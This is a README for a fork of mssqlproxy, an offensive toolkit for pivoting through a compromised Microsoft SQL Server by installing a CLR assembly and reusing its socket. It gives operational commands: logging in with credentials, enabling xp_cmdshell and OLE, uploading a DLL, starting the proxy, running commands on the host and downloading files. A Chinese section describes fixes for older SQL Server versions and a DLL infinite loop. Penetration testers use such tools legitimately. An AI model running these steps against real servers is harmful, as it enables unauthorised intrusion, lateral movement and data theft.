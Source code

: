 # mssqlproxy

**mssqlproxy** is a toolkit aimed to perform lateral movement in restricted environments through a compromised Microsoft SQL Server via socket reuse. The client requires [impacket](https://github.com/SecureAuthCorp/impacket) and **sysadmin** privileges on the SQL server.


Please read [this article](https://www.blackarrow.net/mssqlproxy-pivoting-clr/) carefully before continuing.

```
proxy mode:
  -reciclador path      Remote path where DLL is stored in server
  -install              Installs CLR assembly
  -uninstall            Uninstalls CLR assembly
  -check                Checks if CLR is ready
  -start                Starts proxy
  -local-port port      Local port to listen on
  -clr local_path       Local CLR path
  -no-check-src-port    Use this option when connection is not direct (e.g. proxy)
```

We have also implemented two commands (within the SQL shell) for downloading and uploading files. Relating to the proxy stuff, we have four commands:

* **install**: Creates the CLR assembly and links it to a stored procedure. You need to provide the `-clr` param to read the generated CLR from a local DLL file.
* **uninstall**: Removes what **install** created.
* **check**: Checks if everything is ready to start the proxy. Requires to provide the server DLL location (`-reciclador`), which can be uploaded using the **upload** command.
* **start**: Starts the proxy. If `-local-port` is not specified, it will listen on port 1337/tcp.
[![asciicast](https://asciinema.org/a/298949.svg)](https://asciinema.org/a/298949)

**Note #1:** if using a non-direct connection (e.g. proxies in between), the `-no-check-src-port` flag is needed, so the server only checks the source address.

**Note #2:** at the moment, only IPv4 targets are supported (nor DNS neither IPv6 addresses).

**Note #3:** use carefully! by now the MSSQL service will crash if you try to establish multiple concurrent connections

**Important:** It's important to stop the mssqlproxy by pressing Ctrl+C on the client. If not, the server may crash and you will have to restart the MSSQL service manually.

Example
------------

Prepare
```bash
mv assembly.dll Microsoft.SqlServer.Proxy.dll
python3 mssqlclient.py $username:$password@$ip_mssql
SQL> enable_xp_cmdshell
SQL> enable_ole
SQL> upload reciclador.dll c:\windows\temp\reciclador.dll
SQL> exit
```

Proxy
```bash
python3 mssqlclient.py $username:$password@$ip_mssql -install -clr Microsoft.SqlServer.Proxy.dll
python3 mssqlclient.py $username:$password@$ip_mssql -check -reciclador 'c:\programdata\reciclador.dll'
python3 mssqlclient.py $username:$password@$ip_mssql -start -reciclador 'c:\programdata\reciclador.dll'
```

xp_cmdshell
```bash
SQL> xp_cmdshell whoami /all
```
download file
```
download c:\xx.zip xx.zip
```
Base
------------
https://github.com/iptL-F4ck/mssqlproxy/


Change
------------
217 line of mssqlclient.py
```
SET @ip=TRIM(CONVERT(char(15), CONNECTIONPROPERTY('client_net_address')));
change to
SET @ip=LTRIM(RTRIM(CONVERT(char(15), CONNECTIONPROPERTY('client_net_address'))));
```
103 line of reciclador.cpp
```
return 1;
change to
return -1;
```

Why modify
------------
mssqlclient.py：在mssql2017之后才新增的TRIM函数，绕过mssql小于2017则会报错，仅在mssql2014测试。
![image](https://user-images.githubusercontent.com/102639729/224523965-8e22b17f-00ac-4446-9782-f8042c5453ac.png)

reciclador.cpp：如果python脚本意外退出，该dll会陷入死循环从而导致CPU占用100%。
![image](https://user-images.githubusercontent.com/102639729/224523979-ec109327-d721-415f-9a7c-61e5e62e38d0.png)




License
-------

All the code included in this project is licensed under the terms of the GPL license. The mssqlclient.py is based on [Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py).
